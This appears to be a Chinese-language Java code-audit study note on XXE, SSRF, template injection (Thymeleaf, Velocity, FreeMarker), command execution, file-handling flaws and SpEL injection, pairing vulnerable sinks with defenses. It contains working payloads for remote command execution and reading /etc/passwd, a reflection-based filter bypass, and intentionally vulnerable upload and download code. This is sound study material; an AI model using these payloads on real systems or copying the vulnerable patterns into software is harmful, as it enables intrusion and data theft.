通常parse方法返回void的，就是无回显的。

```java
//1. DocumentBuilder 原生、可回显
import javax.xml.parsers.DocumentBuilderFactory;
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
DocumentBuilder db = dbf.newDocumentBuilder();
StringReader sr = new StringReader(xml_con);
InputSource is = new InputSource(sr);
Document document = db.parse(is); 

//2. saxReader 第三方库
import org.dom4j.io.SAXReader;
SAXReader saxReader = new SAXReader();
Document document = saxReader.read(request.getInputStream());

//3. SAXBuilder 第三方库
import org.jdom2.input.SAXBuilder;
SAXBuilder builder = new SAXBuilder();  
Document document = builder.build(request.getInputStream());

//4. SAXParserFactory 原生、不可回显
import javax.xml.parsers.SAXParserFactory;
SAXParserFactory factory  = SAXParserFactory.newInstance(); 
SAXParser saxparser = factory.newSAXParser();
SAXHandler handler = new SAXHandler();  
saxparser.parse(request.getInputStream(), handler);

//还有其他整理如下：
import org.xml.sax.helpers.XMLReaderFactory;
XMLReader xmlReader = XMLReaderFactory.createXMLReader();
xmlReader.parse( new InputSource(new StringReader(xml_con)) );

import org.apache.commons.digester3.Digester;
Digester digester = new Digester();
digester.parse(new StringReader(xml_con)); 

import javax.xml.parsers.DocumentBuilderFactory;
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setXIncludeAware(true);   // 支持XInclude
dbf.setNamespaceAware(true);  // 支持XInclude
DocumentBuilder db = dbf.newDocumentBuilder();
StringReader sr = new StringReader(xml_con);
InputSource is = new InputSource(sr);
Document document = db.parse(is);  // parse xml

SAXParserFactory spf = SAXParserFactory.newInstance();
SAXParser saxParser = spf.newSAXParser();
XMLReader xmlReader = saxParser.getXMLReader();
xmlReader.parse( new InputSource(new StringReader(xml_con)) );  
```

| Sink类                                        | Sink方法              |
| --------------------------------------------- | --------------------- |
| org/jdom2/input/SAXBuilder                    | build                 |
| javax/xml/parsers/SAXParser                   | parse                 |
| javax/xml/transform/sax/SAXTransformerFactory | newTransformerHandler |
| javax/xml/validation/SchemaFactory            | newSchema             |
| javax/xml/transform/Transformer               | transform             |
| javax/xml/validation/Validator                | validate              |
| org/xml/sax/XMLReader                         | parse                 |

#### 示例

#### xxe的防御比较简单，禁用外部实体即可。

```java
//实例化解析类之后通常会支持着三个配置
obj.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
obj.setFeature("http://xml.org/sax/features/external-general-entities", false);
obj.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

### 3. SSRF

java发送http请求的方式还是比较多的，下面是原生的：

 ```java
 String url = request.getParameter("url");
 URL u = new URL(url);
 
 //1.URL，直接打开，可以跨协议
 InputStream inputStream = u.openStream();
 
 //2. URLConnection，使用这种方法发送请求可以跨协议
 URLConnection urlConnection = u.openConnection();
 //3. HttpURLConnection，进行类型转换之后，只允许http/https
 HttpURLConnection httpURLConnection = (HttpURLConnection)urlConnection;
 InputStream inputStream = urlConnection.getInputStream();
 
 //处理请求结果
 BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
 String inputLine;
 StringBuilder html = new StringBuilder();
 while ((inputLine = bufferedReader.readLine()) != null) {
   html.append(inputLine);
 }
 response.getWriter().println("html:" + html.toString());
 bufferedReader.close();
 
 //4. ImageIO，如果获取到的不是图片，会返回null，这个是需要盲打，还是直接不能利用呢？待补充
 BufferedImage img = ImageIO.read(u);
 
 
 #还有一部分第三方类库的：
 // Request漏洞示例
 String url = request.getParameter("url");
 return Request.Get(url).execute().returnContent().toString();//发起请求
 
 // OkHttpClient漏洞示例
 String url = request.getParameter("url");
 OkHttpClient client = new OkHttpClient();
 com.squareup.okhttp.Request ok_http = new com.squareup.okhttp.Request.Builder().url(url).build();
 client.newCall(ok_http).execute();  //发起请求
 
 //OkHttpClient漏洞示例
 String url = request.getParameter("url");
 CloseableHttpClient client = HttpClients.createDefault();
 HttpGet httpGet = new HttpGet(url);
 HttpResponse httpResponse = client.execute(httpGet); //发起请求
 ```

| Sink类 | Sink方法 |
| ------ | -------- |
|        |          |
|        |          |
|        |          |

#### 漏洞防御

通用方法，看web安全——ssrf

总结下来无非是这么几点：

1. 正确处理302跳转（在业务角度看，不能直接禁止302，而是对跳转的地址重新进行检查）
2. 限制协议只能为http/https，防止跨协议
3. 设置内网ip黑名单（正确判定内网ip、正确获取host）
4. 设置常见web端口白名单（防止端口扫描，可能业务受限比较大）

```java
private static int connectTime = 5 * 1000;

public static boolean checkSsrf(String url) {
  HttpURLConnection httpURLConnection;
  String finalUrl = url;
  try {
    do {
      if(!Pattern.matches("^https?://.*/.*$", finalUrl)) { //只允许http/https协议
        return false;
      }
      if(isInnerIp(url)) { //判断是否为内网ip
        return false;
      }

      httpURLConnection = (HttpURLConnection) new URL(finalUrl).openConnection();
      httpURLConnection.setInstanceFollowRedirects(false); //不跟随跳转
      httpURLConnection.setUseCaches(false); //不使用缓存
      httpURLConnection.setConnectTimeout(connectTime); //设置超时时间
      httpURLConnection.connect(); //send dns request

      int statusCode = httpURLConnection.getResponseCode();
      if (statusCode >= 300 && statusCode <=307 && statusCode != 304 && statusCode != 306) {
        String redirectedUrl = httpURLConnection.getHeaderField("Location");
        if (null == redirectedUrl)
          break;
        finalUrl = redirectedUrl; //获取到跳转之后的url，再次进行判断
      } else {
        break;
      }
    } while (httpURLConnection.getResponseCode() != HttpURLConnection.HTTP_OK);//如果没有返回200，继续对跳转后的链接进行检查
    httpURLConnection.disconnect();
  } catch (Exception e) {
    return true;
  }
  return true;
}

private static boolean isInnerIp(String url) throws URISyntaxException, UnknownHostException {
    URI uri = new URI(url);
    String host = uri.getHost(); //url转host
  	//这一步会发送dns请求，host转ip，各种进制也会转化为常见的x.x.x.x的格式
    InetAddress inetAddress = InetAddress.getByName(host); 
    String ip = inetAddress.getHostAddress();

    String blackSubnetlist[] = {"10.0.0.0/8", "172.16.0.0/12", "192.168.0.0/16", "127.0.0.0/8"}; //内网ip段
    for(String subnet : blackSubnetlist) {
      SubnetUtils subnetUtils = new SubnetUtils(subnet); //commons-net 3.6
      if(subnetUtils.getInfo().isInRange(ip)) {
        return true; //如果ip在内网段中，直接返回
      }
    }
    return false;
}
```


### 4. SSTI

#### Thymeleaf

>  https://www.cnblogs.com/CoLo/p/15507738.html#%E5%86%99%E5%9C%A8%E5%89%8D%E9%9D%A2

Thymeleaf是SpringBoot中的一个模版引擎，以前会用jsp来做view层，后来jsp被淘汰了就是用模板，后面就前后端分离了。

##### 基础知识

- Thymeleaf中的表达式有好几种

    - ```
        变量表达式： ${...}
        选择变量表达式： *{...}
        消息表达： #{...}
        链接 URL 表达式： @{...}
        片段表达式： ~{...}
        ```

- 而这次遇到的是片段表达式(FragmentExpression)： `~{...}`，片段表达式可以用于引用公共的目标片段比如footer或者header

    比如在`/WEB-INF/templates/footer.html`定义一个片段，名为copy。`<div th:fragment="copy">`

    - ```xml
        <!DOCTYPE html>
        
        <html xmlns:th="http://www.thymeleaf.org">
        
          <body>
          
            <div th:fragment="copy">
              &copy; 2011 The Good Thymes Virtual Grocery
            </div>
          
          </body>
          
        </html>
        ```

- 在另一template中引用该片段`<div th:insert="~{footer :: copy}"></div>`

    - ```
        <body>
        
          ...
        
          <div th:insert="~{footer :: copy}"></div>
          
        </body>
        ```

片段表达式语法

- **`~{templatename::selector}`**，会在`/WEB-INF/templates/`目录下寻找名为`templatename`的模版中名字为`selector`作为`fragment`，如上面的`~{footer :: copy}`
- **`~{templatename}`**，引用整个`templatename`模版文件作为`fragment`
- **`~{::selector}` 或 `~{this::selector}`**，引用来自同一模版文件名为`selector`的`fragmnt`
- 其中`selector`可以是通过`th:fragment`定义的片段，也可以是类选择器、ID选择器等。
- **当`~{}`片段表达式中出现`::`，则`::`后需要有值，也就是`selector`。**

**预处理：**

- 语法：`__${expression}__`

    - 官方文档对其的解释：
        - 除了所有这些用于表达式处理的功能外，Thymeleaf 还具有*预处理*表达式的功能。
        - **预处理是在正常表达式之前完成的表达式的执行**，允许修改最终将执行的表达式。
        - 预处理的表达式与普通表达式完全一样，但被双下划线符号（如`__${expression}__`）包围。

- **这是出现SSTI最关键的一个地方，预处理也可以解析执行表达式，也就是说找到一个可以控制预处理表达式的地方，让其解析执行我们的payload即可达到任意代码执行**

- 源码分析的一些重点：

    - `invokeForRequest`函数，根据用户输入的url，调用相关的controller，并将其返回值`returnValue`，作为待查找的模板文件名，通过Thymeleaf模板引擎去查找，并返回给用户。

    - 重点是`returnValue`值是否为`null`，根据Controller写法不同会导致`returnValue`的值存在`null`和`非null`的情况。

        - 不为null，return的字符串并根据前缀和后缀拼接起来，在templates目录下寻找模版文件

        - 那如果Controller如下写的话，returnValue的值就会为null

            - ```java
                @GetMapping("/doc/{document}")
                public void getDocument(@PathVariable String document) {
                    log.info("Retrieving " + document);
                    //returns void, so view name is taken from URI
                }
                ```

        - 在applyDefaultViewName方法里面

            - 如果ModelAndView值不为null则什么也不做，
            - **否则如果`defaultViewName`存在值则会给ModelAndView赋值为defaultViewName，也就是将URI path作为视图名称**。

    - 获取到`ModelAndView`值后会进入到`processDispatchResult`方法，第1个if会被跳过，跟进第2个if中的render方法

    - 在`render`方法中，首先会获取mv对象的`viewName`，然后调用`resolveViewName`方法，`resolveViewName`方法最终会获取最匹配的视图解析器。

    - 跟一下`resolveViewName`方法，这里涉及到两个方法：

        - 首先通过`getCandidateViews`筛选出`resolveViewName`方法返回值不为null的视图解析器添加到`candidateViews`中; 
        - 之后通过`getBestView`拿到最适配的解析器，getBestView中的逻辑是优先返回在`candidateViews`存在重定向动作的`view`，如果都不存在则根据请求头中的`Accept`字段的值与`candidateViews`的相关顺序，并判断是否兼容来返回最适配的`View`

    - 最终返回的是`ThymeleafView`之后`ThymeleafView`调用了`render`方法，继续跟进

    - 调用`renderFragmen`

        - 这里是漏洞触发的关键点之一，该方法在后面首先判断**`viewTemplateName`是否包含`::`,**若包含则获取解析器,调用`parseExpression`方法将`viewTemplateName`(也就是Controller中最后**return的值)构造成片段表达式(`~{}`)并解析执行**，跟进`parseExpression`方法。

    - 最终在org/thymeleaf/standard/expression/StandardExpressionParser对我们表达式进行解析，

        - **首先在`preprocess`方法对表达式进行预处理（这里只要表达式正确就已经执行了我们payload中的命令**）并把结果存入`preprocessedInput`,可以看到此时预处理就已经执行了命令，
        - 之后再次调用`parse`对预处理的结果`preprocessedInput`进行第二次解析，而第二次解析时，需要语法正确也就是在Thymeleaf中，**`~{}`中`::`需要有值才可以获得回显，否则没有回显。**

    - 在org/thymeleaf/standard/expression/StandardExpressionPreprocessor#preprocess方法中，首先通过正则，将`__xxxx__`中间xxxx部分提取出来，调用execute执行

    - 跟进execute最终调用org/thymeleaf/standard/expression/VariableExpression#executeVariableExpression使用SpEL执行表达式，触发任意代码执行

最常见的一个payload

- ```url
    lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::.x`，
    ```

- 通过`__${}__::.x`构造表达式会由Thymeleaf去执行

##### sink

- 引入了Thymeleaf依赖。
- controller，且不是`@ResponseBody` 或者 `@RestController`,而是返回视图

变量由参数输入，然后会传递到`return`

- 分为三种情况

    - **templatename**

        - ```java
            @GetMapping("/path")
            public String path(@RequestParam String lang) {
                return "user/" + lang + "/welcome"; //template path is tainted
            }
            ```

        - 变量传递到view层的路径当中

        - ```java
            Payload:
            
            lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::.x，
            
            这里因为最后return的值为
            user/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x/welcome,
            
            无论我们payload如何构造最后都会拼接/welcome所以即使不加.x依然可以触发命令执行
            ```

    -  **selector**

        - Contorller ：可控点变为了selector位置

        - ```java
            @GetMapping("/fragment")
            public String fragment(@RequestParam String section) {
                return "welcome :: " + section; //fragment is tainted
            }
            ```

        - payload

            ```java
            /fragment?section=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22touch%20executed%22).getInputStream()).next()%7d__::.x
            ```

        - 其实这里也可以不需要`.x`和`::`也可触发命令执行

    - 关于回显问题：

        - 上面两种payload注入点不同会导致有无回显，也可以说是controller代码给予我们的可控参数不同，
        - **回显是在抛出异常的时候**
            - **找不到templatename是存在结果回显的**
            - **而找不到selector不存在结果回显**

    - **URI path**

        - ```java
            @GetMapping("/doc/{document}")
            public void getDocument(@PathVariable String document) {
                log.info("Retrieving " + document);
                //returns void, so view name is taken from URI
            }
            ```

        - 因为返回值为空，所以viewTemplateName会从uri中获取，直接在`{document}`位置传入payload即可

        - ```
            http://localhost:8090/doc/__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22).getInputStream()).next()%7d__::.x
            ```

        - 构造回显

            - 这里其实和0x01类似，templatename部分可控，**没回显的原因在于defaultView中对URI path的处理，我们可以在最后加两个`.`**

            -  ```
                 /doc/__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::..
                 ```

            - **payload最后是必须要`.x`**，看一下为什么，之前在`applyDefaultViewName`部分有提到`defaultViewName`这个值，因为mav返回值为空，所以viewTemplateName会从uri中获取，我们看下是如何处理`defaultViewName`的，调试之后发现在`getViewName`方法中调用`transformPath`对URL中的`path`进行了处理
                - 重点在于第3个if中`stripFilenameExtension`方s法
                - /org/springframework/util/StringUtils#stripFilenameExtension该**方法会对后缀做一个清除**
                - 如果我们传入的payload没有`.x`的话，例如`http://localhost:8090/doc/__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22).getInputStream()).next()%7d__::`最后会被处理成`/doc/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("open -a calculator").getInputStream())`从而没有了`::`无法进入预处理导致无法执行任意代码。
                - 所以这里即使是在最后只加个`.`也是可以的，不一定必须是`.x`

- ##### 其他姿势

    >  https://xz.aliyun.com/t/9826#toc-5

    - `::` 位置

        - 除了上面利用`.`替换`.x`以外（ModelAndView为null，从URI中获取viewname）在templatename中`::`的位置也不是固定的，这个看之前的代码逻辑即可知晓，比如可以替换成下面的poc,将`::`放在最前面：

            - ```
                ::__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22).getInputStream()).next()%7d__
                ```

            - 但是这样就没有回显了

    -  POST方式

    - 省略`__`

        - 当Controller如下配置时，可以省略`__`包裹

            - ```
                @RequestMapping("/path")
                public String path2(@RequestParam String lang) {
                    return lang; //template path is tainted
                }
                
                ```

        - **poc，也不局限于用`${}`,用*{expr}及\*{{expr}} 也同样可以**

    - 

##### 修复方案

1. 配置 `@ResponseBody` 或者 `@RestController`

    1. 这样 spring 框架就不会将其解析为视图名，而是直接返回, 不再调用模板解析。不过不太现实，模板还是要用的。

    2. ```
        @GetMapping("/safe/fragment")
        @ResponseBody
        public String safeFragment(@RequestParam String section) {
            return "welcome :: " + section; //FP, as @ResponseBody annotation tells Spring to process the return values as body, instead of view name
        }
        ```

2. 在返回值前面加上 **"redirect:"**

    1. 这样不再由 Spring ThymeleafView来进行解析，而是由 RedirectView 来进行解析。

        1. ```
            @GetMapping("/safe/redirect")
            public String redirect(@RequestParam String url) {
                return "redirect:" + url; //FP as redirects are not resolved as expressions
            }
            
            ```

3. 在方法参数中加上 HttpServletResponse 参数

    - 由于controller的参数被设置为HttpServletResponse，Spring认为它已经处理了HTTP Response，因此不会发生视图名称解析。和一样，还是不太现实。

    - ```
        @GetMapping("/safe/doc/{document}")
        public void getDocument(@PathVariable String document, HttpServletResponse response) {
            log.info("Retrieving " + document); //FP
        }
        ```

Thymeleaf平常更多的使用姿势还是在于将变量渲染到前端页面而不是类似于输入模版名称去动态返回模版文件，可能实战遇到的并不会很多吧

#### Velocity

##### sink

- ` Velocity.evaluate`

```java
@RequestMapping("/ssti/velocity")
public String velocity(@RequestParam(name = "content") String content) {
    Velocity.init();
    VelocityContext velocityContext = new VelocityContext();

    velocityContext.put("username", "seaii");

    StringWriter stringWriter = new StringWriter();
    Velocity.evaluate(velocityContext, stringWriter, "test", content);
    return stringWriter.toString();
}
```

利用方式：

`#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")`

velocity到目前最新版本也没有提供沙盒或者防御方式，只能禁止或严格过滤用户输入进入**Velocity.evaluate**。

#### FreeMarker

```java
@RequestMapping("/ssti/freemarker")
public String freemarker() throws IOException, TemplateException {
    Configuration configuration = new Configuration(Configuration.VERSION_2_3_23);
    configuration.setClassForTemplateLoading(this.getClass(), "/templates");
    Template template = configuration.getTemplate("test.ftl");

    Map<String, Object> rootMap = new HashMap<String, Object>();
    rootMap.put("username", "passwd");
    StringWriter stringWriter = new StringWriter();
    template.process(rootMap, stringWriter);
    return stringWriter.toString();
}
```

freemarker与velocity的攻击方式不太一样，freemarker可利用的点在于模版语法本身，**直接渲染用户输入payload会被转码而失效**，所以**一般的利用场景为上传或者修改模版文件。**

命令执行1：

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
```

命令执行2：

```
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line}
    ${"<br>"}
</#list>
```

文件读取：

```
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line?html}
    ${"<br>"}
</#list>
```

**将上面的payload写入到模版文件保存，然后让freemarker加载即可。**

**FreeMarkerf防御**

最简单的方式是使用**TemplateClassResolver**，文档在这：

https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html

[](https://camo.githubusercontent.com/af2000685418e3793e4a2680bd0865df0119a45d886e9ecbfceae0398fd651ff/68747470733a2f2f6d64706963747572652e6f73732d636e2d6265696a696e672e616c6979756e63732e636f6d2f32303139313231303233303932312e706e67)

可根据实际需求选择这两种方式，代码实现如下：

```
configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

但这并不是一劳永逸的防御方式，如果配置不当，依然会造成安全问题：

[Freemarker模板注入 Bypass](https://xz.aliyun.com/t/4846)


### 5. RCE

| Sink类                   | Sink方法 |
| ------------------------ | -------- |
| java/lang/Runtime        | exec     |
| java/lang/ProcessBuilder | start    |
| groovy/lang/GroovyShell  | evaluate |

只有数组参数的第一个参数可控，才能导致命令执行

如果命令以字符串形式传入`Runtime.getRuntime.exec`，程序会将传入的命令用空格来拆分。

```
Process process = runtime.exec("ping -c 1 " + ip);
//这种传入 127.0.0.1 | id，是无法正常执行的
第一个参数才会被当作命令，其他都是当作命令的参数
```

如果执行命令使用的是`ProcessBuilder.start`，那么只能执行无参数的命令。因为`ProcessBuilder`不支持以字符串形式传入命令，只能拆分成List或者数组的形式传入，才能执行。


命令执行漏洞的防御需要结合实际场景，没有很通用的防御手段。

1. 尽量避免调用shell来执行命令。
2. 如果是拼接参数来执行命令，对参数进行严格过滤，比如只允许字母数字。


### 6. XSS


### 7. 文件操作

#### 文件上传

`commons-fileupload, commons-fileupload, request.getParts`

```java
private static final String UPLOAD_PATH = "/tmp/upload";
private boolean uploadWithFileUpload(HttpServletRequest request) {
  if(!ServletFileUpload.isMultipartContent(request)) {
    //response.getWriter().print("Error: 表单必须包含 enctype=multipart/form-data");
    return false;
  }
	/*省略部分初始化代码*/
  try {
    List<FileItem> fileItems = servletFileUpload.parseRequest(request);
    if(fileItems != null && fileItems.size() > 0) {
      for(FileItem fileItem : fileItems) {
        String fileName = new File(fileItem.getName()).getName(); //获取文件名
        String filePath = UPLOAD_PATH + File.separator + fileName; //上传路径
        File storeFile = new File(filePath);
        fileItem.write(storeFile); //写文件
      }
      //response.getWriter().println("upload success");
    }
  } catch (Exception e) {
    //response.getWriter().print(e.getMessage());
    return false;
  }
  return true;
}
```

标准的任意文件上传代码。现在的web框架会将上传的文件放在web访问不到的位置存储，这样会一定程度上缓解上传漏洞，但如果在展示文件时处理不当，就会导致任意文件读取或下载。

servlet3之后，可以不使用commons-fileupload、commons-fileupload这两个jar包来处理文件上传，转而使用`request.getParts()`获取上传文件。此外，servlet3还支持以注解的形式定义一些上传的属性。


```java
private boolean uploadWithAnnotation(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
    Part part = request.getPart("fileName");
    if(part == null) {
      return false;
    }
    String filename = UPLOAD_PATH + File.separator + part.getSubmittedFileName();
    part.write(filename);
    part.delete();
    return true;
}
```

```
private boolean uploadWithAnnotation(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
    Part part = request.getPart("fileName");
    if(part == null) {
      return false;
    }
    String filename = UPLOAD_PATH + File.separator + part.getSubmittedFileName();
    part.write(filename);
    part.delete();
    return true;
}
```

可以看到这种方法代码比较简洁，需要注意的是要在类前面加`@MultipartConfig`这个注解，否则会报错。

##### 文件上传利用

无jsp环境下文件上传利用

>  https://wx.zsxq.com/mweb/views/topicdetail/topicdetail.html?topic_id=182452148288452&group_id=2212251881&inviter_id=421128451825228
>
>  https://www.wangan.com/articles/2954#433531
>
>  https://www.cnblogs.com/wh4am1/p/14681335.html

**覆盖charsets.jar进行RCE，但是会影响原本项目的运行。**

#### 文件操作（下载/读取/删除）

这几个操作比较类似，都是对文件的操作。

java的文件读取一般有两种方法，一种是基于InputStream，另一种是基于FileReader。

### 读取

```
//InputStream
File file = new File(filename);
InputStream inputStream = new FileInputStream(file);
while(-1 != (len = inputStream.read())) {
  	outputStream.write(len);
}
//FileReader
String fileContent = "";
FileReader fileReader = new FileReader(filename);
BufferedReader bufferedReader = new BufferedReader(fileReader);
String line = "";
while (null != (line = bufferedReader.readLine())) {
		fileContent += (line + "\n");
}
```

**下载**

读写操作都有的情况下，用流比较方便。

```
//stream
String filename = request.getParameter("filename");
File file = new File(filename);

response.reset();
response.addHeader("Content-Disposition", "attachment;filename=" + new String(filename.getBytes("utf-8")));
response.addHeader("Content-Length", "" + file.length());
response.setContentType("application/octet-stream; charset=utf-8");

InputStream inputStream = new FileInputStream(file);
OutputStream outputStream = new BufferedOutputStream(response.getOutputStream());
int len;
while(-1 != (len = inputStream.read())) {
  outputStream.write(len);
}

inputStream.close();
outputStream.close();
```

**删除**

```
String filename = request.getParameter("filename");
File file = new File(filename);
if(file != null && file.exists() && file.delete()) {
  	response.getWriter().println("delete success");
} else {
  	response.getWriter().println("delete failed");
}
```

**防御**

防御的核心在于对传入的文件名进行正确的过滤，防止跨目录。

```
private boolean checkFilename(String filename) {
    filename = filename.replace("\\", "/"); //消除平台差异
  	//将文件操作限定在指定目录中
  	File file = new File(filename);
    if(file == null || !file.exists() || file.getCanonicalFile().getParent().equals(new File(DOWNLOAD_PATH).getCanonicalPath())) { //检测上级目录是否为指定目录
      return false;
    }
  	//检测文件名中是否有敏感字符
    List<String> blackList = Arrays.asList("./", "../");
    for(String badChar : blackList) {
      if(filename.contains(badChar)) {
        return false;
      }
    }
  	//对文件后缀名设置白名单
    List<String> whiteExt = Arrays.asList("png", "jpg", "gif", "jpeg", "doc");
    String fileExt = filename.substring(filename.lastIndexOf(".") + 1).toLowerCase();
    if(!whiteExt.contains(fileExt)) {
      return false;
    }
    return true;
}
```

#### 文件写入

```
//FileWriter
FileWriter fileWriter = new FileWriter(filename);
BufferedWriter bufferedWriter = new BufferedWriter(fileWriter);
bufferedWriter.write(fileContent);
bufferedWriter.close();
```

**防御**

文件写入与上述三个操作略有不同，在防御时需要对写入的内容进行过滤。

```
private boolean checkFilecontent(String fileContent) {
    List<String> blackContents = Arrays.asList("<%@page", "<%!");
    for(String blackContent : blackContents) {
      if(fileContent.contains(blackContent)) {
        return false;
      }
    }
    return true;
}
```

在写入时最好将标签进行htmlencode

```
String fileContent = request.getParameter("content");
fileContent = ESAPI.encoder().encodeForHTML(fileContent);
```

### 8. 表达式注入

#### **spel**

> https://zhuanlan.zhihu.com/p/184963672
>
> https://blog.csdn.net/weixin_45794666/article/details/123372058

##### 什么是spel？

- Spring表达式语言（简称SpEl）是一个支持查询和操作运行时对象导航图功能的强大的表达式语言. 它的语法类似于传统EL，但提供额外的功能，最出色的就是函数调用和简单字符串的模板函数。尽管有其他可选的 Java 表达式语言，如 OGNL, MVEL,JBoss EL 等等，但 Spel 创建的初衷是了给 Spring 社区提供一种简单而高效的表达式语言，一种可贯穿整个 Spring 产品组的语言。这种语言的特性应基于 Spring 产品的需求而设计。

表达式注入漏洞

- 2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。

- 这次分析的SPEL即Spring EL，是Spring框架专有的EL表达式。相对于其他几种表达式语言，使用面相对较窄，但是从Spring框架被使用的广泛性来看，还是有值得研究的价值的。

- SpEL使用 #{...} 作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式，我们可以在其中使用运算符，变量以及引用bean，属性和方法如：

    ```java
    ${}主要用于加载外部属性文件中的值，在Spring Boot 很早版本的一个SpEL表达式注入中就是依赖${}触发的
        
    两者可以混合使用，但是必须#{}在外面，${}在里面，如#{'${}'}，注意单引号是字符串类型才添加的
    
    除此以外在SpEL中，使用T()运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的Math类，我们可以像下面的示例这样使用T()运算符：
    #{T(java.lang.Math)}运算符的结果会返回一个java.lang.Math类对象。
    ```

##### 复现：

- spel表达式有三种用法：

1. 注解

    ```
    @value("#{表达式}")
    public String arg;
    ```

    这种一般是写死在代码中的，不是关注的重点。

2. xml

    ```
    <bean id="Bean1" class="com.test.xxx">
    	<property name="arg" value="#{表达式}">
    </bean>
    ```

    这种情况通常也是写死在代码中的，但是也有已知的利用场景，就是利用反序列化让程序加载我们实现构造好的恶意xml文件，如jackson的CVE-2017-17485、weblogic的CVE-2019-2725等。

3. 在代码中处理外部传入的表达式

    **这部分是关注的重点**。`sink: SpelExpressionParser`

    ```java
    import org.springframework.expression.Expression;
    import org.springframework.expression.spel.standard.SpelExpressionParser;
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    
    @Controller
    public class HelloWorld {
        @RequestMapping("/test")
        @ResponseBody
        public String test(@RequestParam String input){
            SpelExpressionParser parse = new SpelExpressionParser();
            Expression expression = parse.parseExpression(input);
            return  expression.getValue().toString();
    
        }
    }
    ```

- 通过模板引擎来解析的，也就是我们的输入需要`#{}`包裹才能解析

    - ```java
        @RestController
        @EnableAutoConfiguration
        public class Index {
            @ResponseBody
            @RequestMapping(value = "/spel", method = {RequestMethod.GET, RequestMethod.POST})
            public String spel(String input){
                SpelExpressionParser parser = new SpelExpressionParser();
                TemplateParserContext templateParserContext = new TemplateParserContext();
                Expression expression = parser.parseExpression(input,templateParserContext);
                return expression.getValue().toString();
            }
        }
        ```

    - 

poc

- ```
    http://localhost/test?spel=new%20java.lang.ProcessBuilder(%22calc%22).start()
    ```

##### 漏洞利用

**漏洞可以利用的前置条件有三个：**

1. 传入的表达式 未过滤
2. 表达式解析之后调用了**getValue/setValue**方法
3. 使用**StandardEvaluationContext**（默认）作为上下文对象

**spel表达式功能非常强大，在漏洞利用方面主要使用这几个功能：**

- 使用T(Type)表示Type类的实例,Type为全限定名称,如T(com.test.Bean1)。

- 但是java.lang例外,该包下的类可以不指定包名,因为SpEL已经内置了该包。得到类实例后会访问类静态方法与字段。

    ```
    T(java.lang.Runtime).getRuntime().exec("whoami")
    ```

- 直接通过java语法实例化对象、调用方法

    ```
    new ProcessBuilder("whoami").start()
    
    //可以利用反射来绕过一些过滤
    #{''.getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('ex'+'ec',''.getClass()).invoke(''.getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('getRu'+'ntime').invoke(null),'calc')}
    ```

- poc

    - ```url
        input=#{new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "GBK").useDelimiter("lyy9").next()}
        
        #Scanner#useDelimiter方法使用指定的字符串分割输出，这里给不可能出现的字符串即可，就会让所有的字符都在第一行，然后执行next方法即可获得所有输出。
        
        ```

##### 漏洞防御

- 最简单的方式，使用**SimpleEvaluationContext**作为上下文对象。(SimpleEvaluationContext和StandardEvaluationContext( 默认)是SpEL提供的两个EvaluationContext)

    ```java
    package com.example.spring_sec.Controller;
    
    import org.springframework.expression.EvaluationContext;
    import org.springframework.expression.Expression;
    import org.springframework.expression.spel.standard.SpelExpressionParser;
    import org.springframework.expression.spel.support.SimpleEvaluationContext;
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    
    
    @Controller
    public class HelloWorld {
        @RequestMapping("/test")
        @ResponseBody
        public String test(@RequestParam(name="spel") String input){
            SpelExpressionParser parse = new SpelExpressionParser();
            Expression expression = parse.parseExpression(input);
            //只读属性
            EvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
            return  expression.getValue(context).toString();
        }
    }
    
    ```

- 防御结果

    - ```
        org.springframework.expression.spel.SpelEvaluationException: EL1005E: Type cannot be found 'java.lang.Runtime'
        ```

